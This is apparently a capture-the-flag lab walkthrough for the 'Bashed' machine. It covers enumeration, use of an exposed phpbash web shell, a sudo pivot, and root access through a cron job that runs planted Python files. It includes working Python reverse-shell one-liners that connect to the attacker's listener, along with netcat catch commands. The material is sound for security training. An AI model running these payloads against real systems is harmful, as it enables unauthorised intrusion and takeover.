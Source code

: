 # IP Address: 10.10.10.68

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.68 -t all

Running all scans on 10.10.10.68

Host is likely running Linux

---------------------Starting Script Scan-----------------------


PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

```

### HTTP
Browsing to the site, we see some potentially useful information. 

![site1](https://github.com/codetantrum/walkthroughs/blob/master/Bashed/images/Pasted%20image%2020211113203204.png)

Fuzzing, we found http://10.10.10.68/dev/phpbash.php which looks to be a php shell.

![site2](https://github.com/codetantrum/walkthroughs/blob/master/Bashed/images/Pasted%20image%2020211113203534.png)

The output shows us that this shell will not allow us to leverage the sudo privileges of the www-data user without a TTY shell. 
```
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed
:/var/www/html/dev# sudo /bin/sh

sudo: no tty present and no askpass program specified
```

# Exploitation

Create a reverse shell with python and catch it with our netcat listener. 

On target:
```
www-data@bashed
:export RHOST="10.10.14.7";export RPORT=4488;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

--2021-11-13 17:46:38-- http://10.10.14.7/shell.php
```

Locally: 
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488                                                                                  
listening on [any] 4488 ...

connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 35358
$ 
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/dev$

```

We can run any command as scriptmanager using this format:
```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager ls
sudo -u scriptmanager ls
phpbash.min.php  phpbash.php
```

To get shell as scriptmanager:
```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

user.txt 

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Bashed/images/Pasted%20image%2020211113224301.png)

# Privilege Escalation
In looking around the file system, we notice a /scripts directory in /root. In it there is a python script owned by our user (scriptmanager) which produces a test.txt file owned by root. 
```
scriptmanager@bashed:~$ ls -alh /scripts
ls -alh /scripts
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Dec  4  2017 .
drwxr-xr-x 23 root          root          4.0K Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 13 19:55 test.txt
scriptmanager@bashed:~$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ cat test.txt     
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

```

In current running processes we see that root is running a cron job periodically to execute all .py files in the /scripts directory.

```
root        848  0.0  0.2  50220  2852 ?        S    17:04   0:00  _ /usr/sbin/CRON -f
root        849  0.0  0.0   4508   708 ?        Ss   17:04   0:00  |   _ /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
root        851  0.0  0.7  35080  7072 ?        S    17:04   0:00  |       _ python test2.py
root        852  0.0  0.3  21164  3576 pts/3    Ss+  17:04   0:00  |           _ /bin/bash

```

Create a new python file to execute the reverse shell script used previously, this time on a different port. Wait for the shell.

On target: 
```
scriptmanager@bashed:~$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",4499));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > test2.py

```

Locally:
```
┌──(code㉿kali)-[~]                                                                     
└─$ nc -nlvp 4499                                                                                                                                     
listening on [any] 4499 ...                                                                                                                                        
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 59774                                                                                                         
# id
id
uid=0(root) gid=0(root) groups=0(root)

```


# Proof

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Bashed/images/Pasted%20image%2020211114201829.png)
